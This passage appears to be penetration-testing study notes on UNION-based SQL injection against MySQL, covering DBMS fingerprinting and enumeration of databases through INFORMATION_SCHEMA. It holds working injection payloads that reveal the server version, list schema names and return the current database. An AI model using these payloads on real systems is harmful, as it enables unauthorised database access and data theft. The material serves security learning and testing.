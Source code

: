 `cn' UNION select 1,@@version,3,4-- -`

### Database enumeration

#### Mysql Fingerprinting

Before enumerating the database, we usually need to identify the type of DBMS we are dealing with. This is because each DBMS has different queries, and knowing what it is will help us know what queries to use.

Can guess that if the webserver is Apache or Nginx, then the db is likely MySQL. Similarly if the webserver is IIS, then it could be MSSQL.

| Payload          | When to use                 | Expected output                                   | Wrong output                                              |
| ---------------- | --------------------------- | ------------------------------------------------- | --------------------------------------------------------- |
| SELECT @@version | we have full query output   | MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1'     | In MSSQL it returns MSSQL version. Error with other DBMS. |
| SELECT POW(1,1)  | we only have numeric output | 1                                                 | Error with other DBMS                                     |
| SELECT SLEEP(5)  | Blind/No Output             | Delays page response for 5 seconds and returns 0. | Will not delay response with other DBMS                   |

#### Information_schema database

The [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html) database contains metadata about the databases and tables present on the server.

To pull data from tables using UNION SELECT, we need to properly form our SELECT queries. To do so, we need the following information:

- List of databases
- List of tables within each database
- List of columns within each table

We need to use `.` notation to specify the database we want to use in the query.

#### Schemata

To start our enumeration, we should find what databases are available on the DBMS.

The table ` SCHEMATA` in the `INFORMATION_SCHEMA`database contains information about all databases on the server. The `SCHEMA_NAME` column contains all the database names currently present.

[Schemata columns reference](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)

List of databases

`cn' UNION select 1,schema_name,3,4 from information_schema.schemata-- -`

Get current database

`cn' UNION select 1,database(),2,3-- -`

#### Tables

Before we dump data from the chosen database, we need to get a list of the tables to query them with a SELECT statement.
